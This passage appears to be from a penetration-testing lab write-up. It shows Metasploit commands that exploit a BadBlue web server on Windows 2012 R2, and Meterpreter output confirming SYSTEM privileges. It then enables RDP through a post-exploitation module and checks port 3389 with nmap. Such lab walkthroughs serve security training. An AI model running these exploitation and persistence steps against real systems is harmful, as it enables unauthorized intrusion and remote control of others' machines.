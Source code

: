 ### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 0
    Meterpreter     : x86/windows

getuid
	Server username: NT AUTHORITY\SYSTEM

background
```

### Enable RDP

```bash
search enable_rdp
use post/windows/manage/enable_rdp
options
sessions
set SESSION 1
run
```

![Metasploit - post/windows/manage/enable_rdp](.gitbook/assets/image-20230419225404062.png)

```bash
# Verify port 3389 is open
db_nmap -p 3389 10.2.21.205
```
